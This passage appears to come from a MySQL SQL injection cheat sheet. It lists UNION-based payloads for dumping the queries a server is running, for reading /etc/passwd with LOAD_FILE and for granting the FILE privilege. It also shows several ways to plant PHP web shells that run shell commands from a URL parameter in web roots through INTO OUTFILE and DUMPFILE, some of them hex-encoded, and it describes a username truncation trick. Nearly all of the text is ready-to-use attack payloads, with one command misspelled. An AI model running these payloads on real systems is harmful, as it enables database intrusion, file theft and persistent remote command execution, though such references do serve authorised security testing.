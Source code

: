 ## MYSQL Current queries

This table can list all operations that DB is performing at the moment.

```sql
union SELECT 1,state,info,4 FROM INFORMATION_SCHEMA.PROCESSLIST #

-- Dump in one shot example for the table content.
union select 1,(select(@)from(select(@:=0x00),(select(@)from(information_schema.processlist)where(@)in(@:=concat(@,0x3C62723E,state,0x3a,info))))a),3,4 #
```

## MYSQL Read content of a file

Need the `filepriv`, otherwise you will get the error : `ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement`

```sql
' UNION ALL SELECT LOAD_FILE('/etc/passwd') --
```

If you are `root` on the database, you can re-enable the `LOAD_FILE` using the following query

```sql
GRANT FILE ON *.* TO 'root'@'localhost'; FLUSH PRIVILEGES;#
```

## MYSQL Write a shell

### Into outfile method

```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'
[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -
[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

### Into dumpfile method

```sql
[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'
[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
```

## MYSQL Truncation

In MYSQL "`admin `" and "`admin`" are the same. If the username column in the database has a character-limit the rest of the characters are truncated. So if the database has a column-limit of 20 characters and we input a string with 21 characters the last 1 character will be removed.
